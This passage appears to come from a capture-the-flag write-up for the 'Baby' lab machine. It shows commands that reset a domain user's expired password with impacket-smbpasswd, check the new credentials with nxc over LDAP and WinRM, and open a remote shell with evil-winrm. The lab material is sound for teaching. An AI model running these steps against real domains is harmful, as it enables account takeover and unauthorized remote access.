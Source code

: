 It says for caroline.robinson that **STATUS_PASSWORD_MUST_CHANGE.**

So lets change **Caroline.robinson’s** password using smbpasswd.py from the impacket’s collection

```bash
impacket-smbpasswd -newpass 'aashwin10!' baby.vl/caroline.robinson@babydc.baby.vl
```

![image.png](/assets/images/Baby_VL/image%2013.png)

Lets authenticate and verify our newly set password.

```bash
nxc ldap baby.vl -u 'caroline.robinson' -p 'aashwin10!'
```

![image.png](/assets/images/Baby_VL/image%2014.png)

It says **Pwned!** means we have elevated access.

Lets check for the winrm access as this user.

```bash
nxc winrm baby.vl -u 'caroline.robinson' -p 'aashwin10!'
```

![image.png](/assets/images/Baby_VL/image%2015.png)

Lets get a shell on the box using evil-winrm

```bash
evil-winrm -i baby.vl -u 'caroline.robinson' -p 'aashwin10!'
```
